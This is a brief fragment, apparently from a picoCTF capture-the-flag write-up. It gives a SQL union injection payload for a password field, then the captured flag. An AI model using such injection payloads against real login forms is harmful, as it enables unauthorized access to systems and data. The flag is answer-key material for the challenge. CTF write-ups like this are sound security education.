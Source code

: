 Union injection in password parameter:
```
a'UNION+SELECT+null--+-
```

flag:
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
```